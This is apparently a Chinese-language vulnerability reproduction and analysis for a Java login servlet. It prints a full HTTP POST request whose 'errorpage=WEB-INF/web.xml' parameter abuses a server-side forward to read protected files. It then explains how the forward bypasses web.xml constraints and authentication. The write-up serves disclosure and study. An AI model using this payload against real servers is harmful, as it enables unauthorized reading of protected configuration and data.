



# 漏洞复现

```
POST /login HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 99
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: __qypid=""; JSESSIONID=B9F80FA819D6FD8F5361D79113F8ABE0
Connection: close

op=verify%7Clogin&targetpage=&errorpage=WEB-INF/web.xml&mark=&tzo=480&username=admin&password=admin
```



# 漏洞分析

在LoginServlet的doPost方法中，当登陆验证失败的时候会抛出一个AuthenticationException异常



在结尾的时候捕获了这个异常，并进行了跳转处理



这里处理跳转的时候通过forward进行转发，但是其中的errorpage是web端传入的参数是可控的，导致可以访问到web目录下的任意资源

forward是一个服务端的跳转，请求生命周期还在服务端，没有真正发送给客户端浏览器。

换句话说,请求被转发到目标资源时，还处于内部调用状态，没有经过web容器的安全访问控制。

而我们知道,web容器的访问安全控制主要有以下两方面:

1. web.xml中配置的安全约束,如可访问的资源路径等
2. 认证和授权,限制非法用户访问内部资源

但是forward时,以上两项都会被绕过:

1. forward可以直接访问任意资源路径,不经web.xml限制
2. 请求交给目标资源处理时,还是用原始请求的用户身份,没有重新经过认证和授权

这就导致了一个安全隐患,内部资源可能会被非法访问。